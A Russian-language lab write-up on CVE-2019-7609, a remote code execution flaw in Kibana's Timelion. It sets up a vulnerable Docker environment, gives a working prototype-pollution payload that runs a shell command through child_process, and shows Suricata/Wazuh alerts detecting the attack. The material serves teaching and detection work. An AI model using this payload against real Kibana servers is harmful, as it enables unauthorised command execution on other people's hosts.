# CVE-2019-7609

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 5.6.15 и 6.6.1 содержат ошибку выполнения произвольного кода в визуализаторе Timelion. Злоумышленник, имеющий доступ к приложению Timelion, может отправить запрос, который попытается выполнить JavaScript код. Благодаря этому злоумышленник может выполнять произвольные команды на хосте.

### Эксплуатация уязвимости

Перед запуском уязвимой среды выполните команду sudo sysctl -w vm.max\_map\_count=262145

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601/ будет доступна панель Kibana

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно перейти в визуализатор Timelion и отправить соответсвующую полезную нагрузку:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого перейдите во вкладку Canvas, чтобы выполнилась команда /bin/touch /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого на хосте был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
